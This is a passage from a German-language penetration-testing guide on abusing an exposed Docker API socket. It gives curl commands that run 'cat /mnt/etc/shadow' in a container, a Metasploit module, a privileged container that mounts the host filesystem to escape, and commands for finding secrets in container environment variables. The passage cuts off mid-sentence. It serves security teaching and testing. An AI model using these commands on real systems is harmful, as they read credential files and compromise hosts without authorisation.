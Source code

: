 ```bash
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "cat /mnt/etc/shadow"]}'
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/exec/140e09471b157aa222a5c8783028524540ab5a55713cbfcb195e6d5e9d8079c6/start -d '{}'
#Stop the container
curl –insecure -vv -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/stop
#Delete stopped containers
curl –insecure -vv -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/prune
```
Wenn Sie weitere Informationen dazu wünschen, sind weitere Informationen verfügbar, wo ich die Befehle kopiert habe: [https://securityboulevard.com/2019/02/abusing-docker-api-socket/](https://securityboulevard.com/2019/02/abusing-docker-api-socket/)

#### Automatisch
```bash
msf> use exploit/linux/http/docker_daemon_tcp
nmap -sV --script "docker-*" -p <PORT> <IP>
```
### Kompromittierung

Auf der folgenden Seite finden Sie Möglichkeiten, um **aus einem Docker-Container zu entkommen**:

{% content-ref url="../linux-hardening/privilege-escalation/docker-security/" %}
[docker-security](../linux-hardening/privilege-escalation/docker-security/)
{% endcontent-ref %}

Durch den Missbrauch davon ist es möglich, aus einem Container zu entkommen. Sie könnten einen schwachen Container auf der Remote-Maschine ausführen, aus ihm entkommen und die Maschine kompromittieren:
```bash
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
cat /mnt/etc/shadow
```
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py)

### Privilegieneskalation

Wenn Sie sich auf einem Host befinden, der Docker verwendet, können Sie [**diese Informationen lesen, um zu versuchen, die Privilegien zu erhöhen**](../linux-hardening/privilege-escalation/#writable-docker-socket).

### Geheimnisse in laufenden Docker-Containern entdecken
```bash
docker ps [| grep <kubernetes_service_name>]
docker inspect <docker_id>
```
Überprüfen Sie **env** (Abschnitt der Umgebungsvariablen) auf Geheimnisse, und Sie könnten finden:
